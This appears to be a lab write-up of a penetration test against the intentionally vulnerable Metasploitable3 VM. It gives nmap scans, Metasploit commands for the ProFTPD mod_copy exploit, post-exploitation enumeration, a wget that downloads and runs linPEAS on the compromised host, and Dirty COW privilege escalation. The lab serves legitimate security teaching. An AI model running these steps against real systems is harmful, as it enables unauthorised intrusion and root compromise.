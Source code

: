 # 🧪 Metasploitable3 Penetration Test – Full Lab Report

## 📘 Introduction

This lab simulates a real-world penetration test against the vulnerable VM Metasploitable3 using Kali Linux as the attacking machine. The goal of this lab is to highlight the vulnerabilities of an outdated system and emphasize the importance of keeping machines patched. Through a series of steps including reconnaissance, exploitation, and privilege escalation, we demonstrate how attackers can compromise unpatched systems — documenting each phase with detailed screenshots.

## 🛠️ Lab Setup

| Machine       | OS                    | IP Address       |
|---------------|------------------------|------------------|
| Attacker      | Kali Linux             | 172.28.128.100   |
| Target        | Metasploitable3 Ubuntu | 172.28.128.3     |

---

## 1️⃣ Scanning the Network

We use `nmap` on Kali Linux to detect live hosts in our subnet.

```bash
nmap -sn 172.28.128.0/24
```

![Scanning the Network](screenshots/1.Scanning_Our_Network.png)

---

## 2️⃣ Scanning the Target Machine

After discovering a potential victim, We perform a detailed scan to identify open ports and services.

```bash
nmap -sS -sV -sC -O -Pn 172.28.128.3
```

![Scanning Target Machine](screenshots/2.Scanning_Target_Machine.png)

---

## 3️⃣ Opening Metasploit

We noticed, among all the results, a FTP vulnerability. We launch the Metasploit Framework:

```bash
msfconsole
```

![Opening Metasploit Console](screenshots/3.Opening_Msfconsole.png)

---

## 4️⃣ Discovering Vulnerabilities

We search for vulnerabilities in the ProFTPD service identified earlier.

```bash
search proftpd
```

![Vulnerability Results](screenshots/4.Vulnerability_Results.png)

---

## 5️⃣ Selecting Exploit and Setting Parameters

We choose `exploit/unix/ftp/proftpd_modcopy_exec` and configure it.

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 172.28.128.3
set LHOST 172.28.128.100
set RPORT 80
```

![Setting Exploit Options](screenshots/5.Selecting_The_Exploit_And_Setting_Parameters.png)

---

## 6️⃣ Running the Exploit

We launch the exploit to gain remote code execution.

```bash
run
```

![Running the Exploit](screenshots/6.Running_The_Exploit.png)

---

## 7️⃣ Gathering Information

We enumerate the compromised machine.

```bash
whoami
id
hostname
uname -a
```

![Gathering System Info](screenshots/7.Gathering_Information.png)

---

## 8️⃣ Downloading and Executing linPEAS

We upload and execute linPEAS for local enumeration.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Running linPEAS](screenshots/8.Downloading_And_Starting_LinPEAS.png)

---

## 9️⃣ Privilege Escalation Opportunities

We identify Dirty COW as a potential escalation path.

![linPEAS Output](screenshots/9.Looking_At_Machine_Vulnerabilities_For_Privileges_Escalation.png)

---

## 🔟 Attempted Privilege Escalation

We attempt to exploit Dirty COW, and after running the script we could finally gain root privileges.

![Privilege Escalation Attempt](screenshots/10.Exploiting_And_Updating_Root_Privileges.png)

---

With full system control achieved, the attacker now has unlimited potential to manipulate, exfiltrate, or disrupt any aspect of the machine.


## ✅ Conclusion

- ✔️ Target identified and scanned
- ✔️ Exploit executed successfully using Metasploit
- ✔️ Post-exploitation enumeration completed
- ✔️ Privilege escalation attempted using Dirty COW
- ✔️ Root access achieved
